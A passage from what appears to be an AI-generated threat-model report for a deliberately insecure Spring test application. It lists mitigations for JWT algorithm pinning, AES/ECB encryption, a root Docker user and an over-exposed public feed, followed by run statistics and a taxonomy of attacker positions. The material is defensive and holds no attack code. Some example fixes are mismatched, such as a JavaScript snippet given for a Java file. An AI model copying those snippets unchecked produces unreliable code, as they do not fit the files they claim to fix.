- 🔴 [F-048](#f-048) — JWT verification does not pin the accepted algorithm (`LegacyJwtVerifier.java:17`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17`

**How:** Configure an explicit algorithm allowlist and reject unsigned or algorithm-confused tokens before claims are trusted.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17`: it applies **Pin accepted JWT verification algorithms**. The ordered steps above remain authoritative._

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

### P3 — Next Quarter

<a id="m-043"></a>
#### M-043 — Replace AES/ECB with AES/GCM and generate a random IV per encryption

**Addresses:**

- 🟠 [F-044](#f-044) — Deterministic AES/ECB Encryption without IV (`LegacyCryptoService.java:17`)

**Weaknesses addressed:** [W-005](#w-005)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:17`

**How:**

1. Change `Cipher.getInstance("AES/ECB/PKCS5Padding")` to `Cipher.getInstance("AES/GCM/NoPadding")`.
2. Generate a fresh 12-byte IV with `new SecureRandom().nextBytes(iv)` before each encryption call.
3. Prepend the IV to the ciphertext output so decryption can recover it: `output = iv || ciphertext`.
4. Replace the hardcoded `EXPORT_KEY` with a value injected from a secrets manager (see 🔴 [F-032](#f-032)).

_Example implementation in `src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:17`: it applies **Replace AES/ECB with AES/GCM and generate a random IV per encryption**. The ordered steps above remain authoritative._

```javascript
// Before — ECB, no IV, deterministic
Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5Padding");
cipher.init(Cipher.ENCRYPT_MODE, keySpec);

// After — GCM with random IV, provides confidentiality + integrity
byte[] iv = new byte[12];
new SecureRandom().nextBytes(iv);
Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");
cipher.init(Cipher.ENCRYPT_MODE, keySpec, new GCMParameterSpec(128, iv));
byte[] ct = cipher.doFinal(plaintext);
byte[] out = new byte[12 + ct.length];
System.arraycopy(iv, 0, out, 0, 12);
System.arraycopy(ct, 0, out, 12, ct.length);
return Base64.getEncoder().encodeToString(out);
```

**Verification:** Call `GET /api/crypto/export-token?value=AAAAAAAAAAAAAAAA` twice. Before fix: both responses are identical. After fix: each response differs due to the random IV prepended to the output.

**Reference:** [CWE-327: Use of a Broken or Risky Cryptographic Algorithm](https://cwe.mitre.org/data/definitions/327.html)

---

<a id="m-044"></a>
#### M-044 — Add USER &lt;non-root-uid&gt;

**Addresses:**

- 🟡 [F-045](#f-045) — Dockerfile USER directive (non-root) (`Dockerfile:1`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:1`

---

<a id="m-045"></a>
#### M-045 — Remove storageName and classification from the public-feed DocumentSummary response

**Addresses:**

- 🟡 [F-046](#f-046) — Unauthenticated public-feed exposes internal storageName and classification fie… (`DocumentSearchController.java:33`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `src/main/java/com/example/appsecverificationtarget/inputvalidation/DocumentSearchController.java:33`

**How:**

1. Define a separate PublicDocumentSummary DTO (or record) that excludes `storageName` and classification, exposing only id, title, and tag.
2. Update `DocumentSearchController.publicFeed()` to map through the new DTO instead of DocumentSummary.
3. If `storageName` must be accessible to authenticated callers, retain it in DocumentSummary but only use that DTO on authenticated endpoints.

_Example implementation in `src/main/java/com/example/appsecverificationtarget/inputvalidation/DocumentSearchController.java:33`: it applies **Remove storageName and classification from the public-feed DocumentSummary response**. The ordered steps above remain authoritative._

```javascript
// New minimal public DTO
public record PublicDocumentSummary(Long id, String title, String tag) {
    public static PublicDocumentSummary from(DocumentRecord doc) {
        return new PublicDocumentSummary(doc.getId(), doc.getTitle(), doc.getTag());
    }
}

// Updated endpoint
@GetMapping("/public-feed")
public List<PublicDocumentSummary> publicFeed() {
    return documentLookupDao.publicDocuments()
        .stream().map(PublicDocumentSummary::from).toList();
}
```

**Verification:** Call `GET /api/documents/public-feed` without authentication and confirm the JSON response does not contain `storageName` or classification fields.

**Reference:** [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

---

### P4 — Backlog

_No P4 mitigations._

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `/appsec-advisor:create-threat-model --slug insecure-spring-app-standard --keep-runtime-files` |
| Generated | 2026-07-16 18:06 UTC |
| Mode | full |
| Assessment depth | standard |
| Plugin version | 0.5.0-beta (analysis v3) |
| Orchestrator model | claude-sonnet-4-6 |
| Reasoning models | sonnet-economy - STRIDE claude-sonnet-4-6,<br/>triage claude-sonnet-5, merger<br/>claude-sonnet-5 |
| Repository | /home/mrohr/1/insecure-spring-app |
| Output directory | /home/mrohr/1/insecure-spring-app/docs/security |
| Wall clock (active) | 137m 57s |
| Agent compute (Σ parallel dispatches) | 254m 51s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------|----------------------|-----------------|--------|----------|---------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | claude-sonnet-4-6 | 126m 25s | 441 | 884,657 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 7m 40s | 61 | 118,182 |
| 2 | Report Rendering | appsec-threat-renderer | claude-sonnet-5 | 120m 45s | 56 | 209,681 |
| 3 | QA Review | `qa_checks.py` | none | - | 0 | 0 |
| **Total** | - | - | - | **254m 51s** | **558** | **1,212,520** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 9 | STRIDE Merge - 50 threats (Critical: 15,<br/>High: 30, Medium: 4, Low: 1) | Nx stride-analyzer (sonnet-4-6) | 318s |
| Phase 10 | Scan Synthesis - 29 secrets from recon, 2<br/>sca-practice MF, 0 known-bad-libs MF… | threat-analyst (sonnet-4-6) | 15s |
| Phase 10b | Triage Validation - 19 flags (19 warnings, 0<br/>info) | appsec-triage-validator (sonnet-4-6) | 207s |
| Phase 11 | Finalization (Substeps 1-3) - yaml written,<br/>baseline updated | threat-analyst (sonnet-4-6) | 140s |
| Phase 11 | Finalization (parallel renderer) | threat-analyst (sonnet-4-6) | 122m 02s |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2025, A05:2025, A07:2025

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2025, A06:2025, A02:2025

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2025

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2025, A05:2025

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2025

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A04:2025, A07:2025

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)